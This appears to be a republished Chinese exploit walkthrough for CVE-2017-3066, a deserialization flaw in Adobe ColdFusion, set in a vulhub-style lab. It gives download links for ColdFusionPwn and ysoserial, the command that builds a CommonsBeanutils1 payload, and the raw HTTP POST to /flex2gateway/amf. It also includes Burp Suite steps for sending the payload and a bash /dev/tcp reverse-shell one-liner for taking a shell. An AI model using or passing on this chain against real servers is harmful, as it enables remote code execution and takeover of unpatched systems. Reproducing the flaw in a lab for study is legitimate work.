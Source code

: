 # （CVE-2017-3066）Adobe ColdFusion 反序列化漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2806](https://www.zhihuifly.com/t/topic/2806)

# （CVE-2017-3066）Adobe ColdFusion 反序列化漏洞

## 一、漏洞简介

## 二、漏洞影响

Adobe ColdFusion (2016 release) Update 3及之前的版本，

ColdFusion 11 Update 11及之前的版本，

ColdFusion 10 Update 22及之前的版本。

## 三、复现过程

使用[ColdFusionPwn](https://github.com/ianxtianxt/ColdFusionPwnn)工具来生成POC。
[点击下载ColdFusionPwn](http://wiki.0-sec.org/download/ColdFusionPwn-0.0.1-SNAPSHOT-all.zip)

> ## Usage
> 
> ```
> java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-master-SNAPSHOT.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner [-s|-e] [payload type] '[command]' [outfile] 
> ```

[点击下载ysoserial](http://wiki.0-sec.org/download/ysoserial.zip)
【注意】下载的jar包可能因为时间不同，而更新，包名也就不同。注意将命令中的包名，替换为你下载时候的名字

```
java -cp ColdFusionPwn.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/CVE-2017-3066_is_success' poc.ser 
```

生成poc.ser文件后，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为`application/x-amf`

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853 `[…poc…]` 
```

![image](img/68b10682ce9913b874ca871a4bd0fb7b.png)

### 关于发送的内容编码问题

由于编码问题，如果直接从Notepad++/Notepad里面复制粘贴为body部分，是不成功的，即使返回的状态码是200

#### 正确发送方式为：

右击选择**Paste From File**，上传**poc.cer**文件

![image](img/3ef0eb4513a853e0c2d867f392ed278b.png)

再到`Raw`界面添加HTTP头部，如果成功，并且打算以后还需要用的话，右击选择`Copy to File`保存

![image](img/07535ef03fe57b7689af3d0a04398d60.png)

进入容器中，发现`/tmp/success`已成功创建：

![image](img/a2fe6db61dd13cf1681615fb0cde6b83.png)

将POC改成[反弹命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功拿到shell：

![image](img/36bef43c7be4531bf8ad9b225bfb987e.png)

补充一下反弹shell的命令,可以通过http://www.jackson-t.ca/runtime-exec-payloads.html在线转换

```
bash -i >& /dev/tcp/ip/port 0>&1 
```

## 参考链接

> https://vulhub.org/#/environments/coldfusion/CVE-2017-3066/